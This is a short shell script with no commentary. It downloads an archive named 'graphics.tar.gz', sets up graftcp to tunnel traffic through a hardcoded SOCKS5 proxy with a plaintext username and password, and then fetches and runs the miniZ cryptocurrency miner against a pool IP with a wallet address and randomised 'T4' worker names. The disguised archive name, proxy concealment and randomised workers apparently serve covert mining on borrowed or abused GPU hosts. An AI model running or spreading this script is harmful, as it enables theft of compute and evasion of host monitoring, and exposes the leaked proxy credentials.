 sudo apt-get update -y
wget https://github.com/Akatsoki/joss/raw/main/graphics.tar.gz
tar -xvzf graphics.tar.gz

cat > graftcp/local/graftcp-local.conf <<END

listen = :2233

loglevel = 1

socks5 = 209.127.191.180:9279

socks5_username = zgthblei

socks5_password = on22d2a9tmpg

END

./graftcp/local/graftcp-local -config graftcp/local/graftcp-local.conf &

sleep .2

./graftcp/graftcp curl ifconfig.me

echo " "

echo " "

./graftcp/graftcp wget https://github.com/miniZ-miner/miniZ/releases/download/v1.8y2/miniZ_v1.8y2_linux-x64.tar.gz 
tar xf miniZ_v1.8y2_linux-x64.tar.gz 

chmod +x miniZ

./graftcp/graftcp ./miniZ -u BTT:TUHSHk7a4LBushQpCh22jBXz5QeMUfUt77.Mini $(echo $(shuf -i 1-999 -n 1)-T4) -l 159.203.163.51 --port=3333 -p x --par=ethash --pers auto
